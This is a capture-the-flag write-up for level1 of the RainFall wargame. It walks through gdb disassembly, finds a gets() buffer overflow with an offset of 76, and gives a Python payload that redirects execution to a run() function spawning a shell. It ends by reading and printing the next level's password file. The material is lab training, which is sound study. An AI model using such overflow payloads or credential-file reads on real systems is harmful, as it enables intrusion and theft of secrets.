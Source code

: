 # Level1

## Exploring the binary
```shell
level1@RainFall:~$ ./level1

level1@RainFall:~$ ./level1
phantom
```
After execution, the program waits for input and then terminates.

## GDB analysis
```shell
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:		push   %ebp
   0x08048481 <+1>:		mov    %esp,%ebp
   0x08048483 <+3>:		and    $0xfffffff0,%esp
   0x08048486 <+6>:		sub    $0x50,%esp
   0x08048489 <+9>:		lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```
The main functions calls <code>gets()</code> functions which reads the input. No other functions are called, so we explore out options.
```shell
(gdb) i functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```
There is a function <code>run()</code> which could potentially be our way to level2.
```shell
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:		push   %ebp
   0x08048445 <+1>:		mov    %esp,%ebp
   0x08048447 <+3>:		sub    $0x18,%esp
   0x0804844a <+6>:		mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
```
Call to <code>system()</code> supports this theory. We can use the common buffer overflow exploit to access the <code>run()</code> function and trigger the <code>/bin/sh</code> of level2.

## Buffer overrun attack
To find the offset, we can use an online tool ([Wiremask](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)) or a custom python script.
``` shell
level1@RainFall:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa...Ag2Ag3Ag4Ag5Ag" > /tmp/pattern
level1@RainFall:~$ gdb ./level1
(gdb) run < /tmp/pattern
Starting program: /home/user/level1/level1 < /tmp/pattern
```
This way, we find out that <u>the offset is 76</u>. By replacing the return address value with the memory address of the <code>run()</code> function, we can manipulate the program flow to ensure its execution.
``` shell
(gdb) p run
$1 = {<text variable, no debug info>} 0x8048444 <run>
```
To ensure that the memory address is represented correctly in the payload, we need to use the little-endian format:
``` shell
\x44\x84\x04\x08
```
When using Python, we can achieve the same result by reversing the order of the bytes:
``` shell
\x08\x04\x84\x44[::-1]
```

## Exploit
``` shell
level1@RainFall:~$ python -c 'print "F" * 76 + "\x08\x04\x84\x44"[::-1]' > /tmp/flag1
level1@RainFall:~$ cat /tmp/flag1 - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
